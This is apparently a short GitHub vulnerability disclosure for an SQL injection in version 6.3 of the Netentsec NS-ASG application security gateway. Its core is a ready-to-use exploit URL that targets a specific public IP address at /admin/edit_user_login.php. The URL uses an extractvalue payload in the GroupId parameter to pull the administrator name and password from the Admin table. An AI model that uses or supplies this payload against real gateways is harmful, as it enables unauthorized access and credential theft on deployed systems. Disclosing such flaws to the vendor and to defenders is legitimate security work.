Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/edit_user_login.php


https://1.85.53.53/admin/edit_user_login.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))

<img width="721" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/17e349d5-3306-4d91-b432-3e7f6c642352">
